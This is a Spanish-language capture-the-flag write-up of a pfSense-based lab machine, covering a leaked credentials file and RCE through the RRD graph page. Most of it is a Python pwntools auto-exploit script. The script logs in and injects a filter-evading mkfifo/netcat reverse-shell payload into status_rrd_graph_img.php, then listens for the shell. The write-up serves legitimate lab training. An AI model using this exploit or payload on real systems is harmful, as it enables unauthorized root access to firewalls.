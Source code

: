 ---------
- Tags: #python-scripgin #pfsense #information-leakage
---------
## Tecnicas utilizadas
- Information Leakage  
- PFsense - Abusing RRD Graphs (RCE) [Evasion Techniques]  
- Python Exploit Development (AutoPwn) [EXTRA]
## Procedimiento

![[Pasted image 20230615120759.png]]

#### Reconocimiento

El escaneo de nmap nos da los siguientes puertos:


Si hacemos un whatweb contra la pagina podemos ver las tecnologias que corren por detres:

#### Information Leakage  

Visitando la pagina, vemos que es un CMS de nombre **Sense**. Si tratamos de fuzzear por archivos con terminacion *.txt* podemos encontrar un archivo interesante que contiene credenciales para acceder al CMS.

-------------
#### PFsense - Abusing RRD Graphs (RCE) [Evasion Techniques]  

Una vez con la credencial, se filtra la versión y con esta podemos buscar por exploits mas especificos. Hay uno que automatiza la explotacion y nos da una revershell shell como root.

------------------
#### Python Exploit Development (AutoPwn) [EXTRA]

Podemos automatizar completamente la intrusion a la maquina con el siguiente script

```python

from pwn import *
import pdb, requests, signal, sys, urllib3, time, re, threading

def def_handler(sig,frame):
	print("\n[!] Saliendo...")
	sys.exit(1)

# ctrl + c
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "https://<ip>/index.php"
rce_url = """https//<ip>/status_rrd_graph_img.php?database=queues;guion=$(printf "\\055");ampersand=$(printf "\\046");rm ${HOME}tmp${HOME}f;mkfifo ${HOME}tmp${HOME}f;cat ${HOME}tmp${HOME}f|${HOME}bin${HOME}sh ${guion}i 2>${ampersand}1|nc ip port >${HOME}tmp${HOME}f"""
lport = 443
def executeCommand():

	#crea una sesion
	s = requests.session()
	#deshabilita el warining del certificado autofirmado -> https
	urllib3.disable_warnings() 
	s.verify = False

	#tramita una peticion
	r = s.get(main_url)

	#obtenemos el csrfToken con una expresion regular
	csrfToken = re.findall(r'<cadena>', r.text)[0]

	#definimos la data que vamos a tramitar
	post_data = {
		'<data>':'<data>'
	}
	#mandamos la data, con la cual nos vamos a loguear
	r = s.post(main_url, data=post_data)
	#atentamos contra el RCE
	r = s.get(rce_url)
	

if __name__ == "__main__":

	try:
		# declaramos la funcion que necesitamos paralelizar
		threading.Thread(target=executeCommand, args=()).start()
	except Exception as e:
		#mostramos el error en formato string con pwntools
		log.error(str(e))

	#nos ponemos en escucha, de manera paralela, se ejecuta la funcion de arriba.
	shell = listen(lport, timeout=20).wait_for_connection()
	#invocamos una shell interactiva
	shell.interactive()
	
```

